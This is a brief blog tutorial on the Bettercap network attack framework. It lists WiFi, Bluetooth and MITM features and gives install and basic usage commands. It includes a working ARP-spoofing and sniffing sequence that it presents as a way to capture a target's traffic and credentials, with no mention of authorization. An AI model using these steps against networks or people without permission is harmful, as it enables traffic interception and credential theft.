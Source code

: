 ```yaml
---
title: "Bettercap"
date: 2022-07-02T18:16:26Z
draft: false
author: "Dark-Kernel"
post_image: "https://www.bettercap.org/logo.png"
---
```


## Bettercap Framework


Bettercap is a powerfull, easily extensible and portable framework written in Go which aims to offer to security researches, redteamers and reverse engineers an easy to use, all-in-one solution with all the features they might possibly need for performing reconnaissance and attacking WiFi networks, Bluetooth Low Energy devices, wireless HID devices and IPv4/IPv6 networks.

![bettercap_pic](https://www.bettercap.org/logo.png)

                   
 ## Main Features

 * **WiFi** networks scanning, [deauthentication attack](https://www.evilsocket.net/2018/07/28/Project-PITA-Writeup-build-a-mini-mass-deauther-using-bettercap-and-a-Raspberry-Pi-Zero-W/), [clientless PMKID association attack](https://www.evilsocket.net/2019/02/13/Pwning-WiFi-networks-with-bettercap-and-the-PMKID-client-less-attack/) and automatic WPA/WPA2 client handshakes capture.
* **Bluetooth Low Energy** devices scanning, characteristics enumeration, reading and writing.
* 2.4Ghz wireless devices scanning and **MouseJacking** attacks with over-the-air HID frames injection (with DuckyScript support).
* Passive and active IP network hosts probing and recon.
* **ARP, DNS, NDP and DHCPv6 spoofers** for MITM attacks on IPv4 and IPv6 based networks.
* **Proxies at packet level, TCP level and HTTP/HTTPS** application level fully scriptable with easy to implement **javascript plugins**.
* A powerful **network sniffer** for **credentials harvesting** which can also be used as a **network protocol fuzzer**.
* A very fast port scanner.
* A powerful [REST API](https://www.bettercap.org/modules/core/api.rest/) with support for asynchronous events notification on websocket to orchestrate your attacks easily.
* **A very convenient [web UI](https://www.bettercap.org/usage/#web-ui).**


Get More infomation on their official website [More!](https://www.bettercap.org/modules/)


## Installation

To install bettercap use the following commands:

~ Arch

	sudo pacman -S bettercap

~ Kali

	sudo apt install bettercap

~ Others use their official repository

	https://github.com/bettercap/bettercap


## Basic stuffs


First fireup you bettercap on terminal

	sudo bettercap

![bettercap_start](/btr_start.png)



Search devices on your network

	net.probe on

	net.show

  

You can perform MITM attack also 
### Example

	set arp.spoof.fullduplex true

 	set arp.spoof.targets <target ip>

 	arp.spoof on

 	net.sniff on


Now you will get all the data where the target visits. including the credentials.



# 
# **We can use web view also**

   1. First install ui

 	ui.update

   2. Then 

 	https-ui

 Now you will get a link visit that page and explore.


        
# **Thanks for reading.**

